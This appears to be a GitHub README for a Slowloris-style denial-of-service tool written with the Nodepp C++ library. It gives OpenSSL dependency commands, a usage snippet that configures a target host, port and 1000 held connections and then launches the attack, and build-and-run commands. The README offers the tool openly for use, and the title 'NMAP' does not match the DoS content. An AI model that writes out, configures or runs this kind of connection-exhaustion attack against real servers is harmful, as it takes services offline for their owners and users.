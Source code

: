 # NODEPP-NMAP

A DDoN Service Slowlory algorithm using Nodepp.

## Dependencies

- **Openssl**
    - 🪟: `pacman -S mingw-w64-ucrt-x86_64-openssl`
    - 🐧: `sudo apt install libssl-dev`

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run

- 🪟: `g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main`
- 🐧: `g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main`